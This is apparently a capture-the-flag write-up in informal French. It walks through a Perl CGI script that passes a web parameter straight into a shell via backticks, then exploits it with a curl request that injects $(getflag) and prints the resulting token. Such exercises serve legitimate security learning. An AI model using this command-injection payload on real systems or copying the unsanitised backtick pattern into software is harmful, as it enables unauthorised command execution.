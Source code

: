 bon ls -la

je trouve level04.pl
je le cat 
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));

je comprend qu'il lui faut un param x donc je test:
./level04.pl x=$(getflag)

il me ressort check

j'ai regarder ce aue c'etait CGI et je trouve ca Common Gateway Interface
ensuite avec localhost je me dit que ca s'execute via web request

sachant qu'il faut une request sur le web je regarde ce que je peux trouver

je suis tomber sur curl qui par definition
curl is a tool to transfer data from or to a server, using one of the supported protocols
fait exactement ce qu'on a besoin

je try curl '[ip]:4747?x=$(getflag)'
et hop
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap